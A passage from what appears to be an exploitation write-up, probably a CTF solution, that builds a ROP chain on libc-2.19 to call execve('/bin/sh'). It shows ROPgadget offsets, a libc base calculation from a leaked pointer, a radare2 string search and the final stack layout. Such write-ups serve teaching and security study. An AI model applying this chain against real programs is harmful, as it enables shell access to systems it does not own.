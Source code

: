 ## ROP chain creation

The goal is to trigger the `execve` syscall with `/bin/sh` as argument. Here is
what must be set into the registers:

* `rax`: syscall number: 59
* `rdi`: filename: pointer to `/bin/sh`
* `rsi`: argv: NULL because we don't need it
* `rdx`: envp: NULL because we don't need it

All that information can be seen in the manpage of `execve` and `syscall`.

[`ROPgadget`][ropgadget] can be used to find ROP gadget:
{% highlight shell-session %}
0x000000000001b218 : pop rax ; ret
0x0000000000022b1a : pop rdi ; ret
0x0000000000024805 : pop rsi ; ret
0x0000000000001b8e : pop rdx ; ret
0x00000000000c1e55 : syscall ; ret
{% endhighlight %}

The addresses are offsets from the beginning of the libc. To that the base
address must be added. Earlier we leaked a pointer to the libc and found the base
address. The offset of the leaked address can be calculated as follow:
{% highlight shell-session %}
offset = leaked_addr - base_addr
       = 0x7ffff79f9140 - 0x7ffff763b000
       = 3924288
{% endhighlight %}

We still need to find a pointer to `/bin/sh`. There are two possibilities,
either we provide the string `/bin/sh` in the ROP chain and we find a gadget
that does `mov rdi, rsp; ...` or we find the address of an existing `/bin/sh`.
As I usually opt for the first option and I already explained in other
write-ups, let's do the second one... or maybe this is because we've already
leaked an address to the libc.

As stated earlier, the libc contains the magic gadget, therefore it has to have
the string `/bin/sh` somewhere:
{% highlight ca65 %}
$ r2 -A libc-2.19.so
 -- Bindings are mostly powered by tears.
[0x00021fd0]> / /bin/sh
Searching 7 bytes from 0x00000270 to 0x003c42c0: 2f 62 69 6e 2f 73 68 
Searching 7 bytes in [0x270-0x3c42c0]
hits: 1
0x0017ccdb hit0_0 "/bin/sh"
{% endhighlight %}

`0x0017ccdb` is the offset of the string `/bin/sh`. As for the gadgets, the
base address of the libc must be added.

We ended up with the following layout to put on the stack:
{% highlight shell-session %}
libc_base + 0x1b218  | pop rax ; ret
59                   | syscall number
libc_base + 0x22b1a  | pop rdi ; ret
libc_base + 0x17ccdb | addr of `/bin/sh`
libc_base + 0x24805  | pop rsi ; ret
0                    | NULL
libc_base + 0x01b8e  | pop rdx ; ret
0                    | NULL
libc_base + 0xc1e55  | syscall ; ret
{% endhighlight %}


[gcc]: http://archive.ubuntu.com/ubuntu/pool/main/g/gcc-4.8
[libc]: http://packages.ubuntu.com/trusty/libc6
[libc2]: http://archive.ubuntu.com/ubuntu/pool/main/e/eglibc/
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget